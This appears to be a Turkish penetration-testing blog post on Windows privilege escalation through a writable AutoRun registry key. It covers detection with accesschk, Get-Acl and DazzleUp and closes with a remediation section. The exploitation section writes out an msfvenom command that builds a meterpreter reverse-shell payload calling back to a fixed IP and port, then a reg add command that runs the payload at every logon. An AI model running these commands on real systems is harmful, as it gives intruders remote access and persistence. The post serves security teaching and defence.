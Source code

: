```yaml
---
layout: post
title: Modifiable Registry AutoRun Keys
description: "Kayıt Defterindeki Düzenlenebilir Başlangıç Anahtarı."
modified: 2020-09-07
comments: true
categories: TR
tags: [yetki yükseltme, privilege escalation, windows, pentest]
---
```



## Özet

Windows sistemlerde yanlış yapılandırılmış kayıt defteri kayıtları bulunabilir. Standart kurulumlarda sıklıkla karşılaşılan bir durum olmasa da kullanıcılar bazen izinleri yanlış yapılandırarak, kötü niyetli kişilere yeni ayrıcalıklar elde etmek için bir yol açmış olabilirler. Bazen bu izinler kullanılarak yeni ayrıcalıklar elde edilebilir. 

## Detay

Özetle bazı anahtarlar yönetici olmayan kullanıcılar tarafından değiştirilebilir olduğunda bu anahtarlar manipüle edilerek sistemde yetki yükseltilebilir ve sistemde kalıcılık sağlanabilir. 

Örnek olarak AutoRun özelliğini aktifleştiren anahtarlar verilebilir. Aşağıda sistemin her açılışında otomatik olarak başlatacağı uygulamaların belirlendiği kayıt bölümü olan Run kaydının herkes tarafından düzenlenebildiği gösterilmiştir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/1.png" alt="">
</p>

## Bulunması

Yanlış yapılandırılmış kayıt defteri izinlerini otomatik olarak bulmak için DazzleUp kullanılabilir. DazzleUp’ın yanlış yapılandırma için oluşturduğu çıktının ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/2.png" alt="">
</p>

Yanlış yapılandırılmış kayıt defteri iznini bulmak için sysinternal araçlarından olan accesschk.exe kullanılabilir. HKLM altında yanlış yapılandırılmış bir kayıt bulmak için;

```powershell
Accesschk64.exe “Everyone” -kvuqsw HKLM\
```
komutunu kullanarak Everyone’ın değişiklik yapma iznine sahip olduğu tüm kayıtları listeleyebiliriz. Aşağıda yanlış yapılandırılmış kayıt gösterilmiştir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/3.png" alt="">
</p>

Yanlış yapılandırılmış kaydı detaylı incelemek için;

```powershell
Get-Acl -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run | Format-List
```
komutu kullanılabilir.
Ekran görüntüsünden görüldüğü üzere ilgili kayıt NT AUTHORITY\SYSTEM grubuna dahil olup **Everyone** tarafından tam erişime sahip.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/4.png" alt="">
</p>

## İstismar Edilmesi
Zararlı yazılım üretilerek sisteme yüklenecektir. Zararlının üretildiğine dair ekran görüntüsü aşağıda verilmiştir. 

```bash
msfvenom --platform windows -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.6.182 LPORT=445 -f exe -o cmd.exe
```

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/5.png" alt="">
</p>

İlgili dosyanın hedef makineye daha önceden elde edilmiş bir oturum üzerinden yüklenmesine dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/6.png" alt="">
</p>

Bu kayıt bölümünde herkes değişiklik yapabildiği için;

```powershell
Reg add “HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run” /t REG_EXPAND_SZ /v Insecure /d “C:\Users\test\Desktop\cmd.exe”
```
komutunu girerek zararlı yazılımı her oturum açılışında çalıştırılacak şekilde ayarlamış bulunuyoruz. Anahtara zararlı yazılımın tam yolunun verildiğine dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/7.png" alt="">
</p>

Sonraki oturum açılışında, oturum açan kullanıcı ayrıcalıklarında uzaktan erişim elde edilecektir. Administrator kullanıcısı oturum açtığında elde edilen uzaktan erişim oturumu aşağıda ki ekran görüntüsünde gösterilmiştir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/8.png" alt="">
</p>

## Çözüm

Hatalı yapılandırmayı gidermek için, yanlış yapılandırılmış kaydın izinler bölümünde düzenleme yapılmalıdır. İzinlerin nereden değiştirileceği aşağıda ki ekran görüntülerinde gösterilmiştir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/9.png" alt="">
</p>


<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/10.png" alt="">
</p>

Yanlış yapılandırmanın düzeldiğine dair ekran görüntüsü aşağıda verilmitir.

<p align="center">
	<img src="/images/modifiable_registry_autoRun_keys_ss/11.png" alt="">
</p>

## Kaynakça

*	https://en.wikipedia.org/wiki/Windows_Registry
*	https://docs.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys
*	https://github.com/hlldz/dazzleUP
*	https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
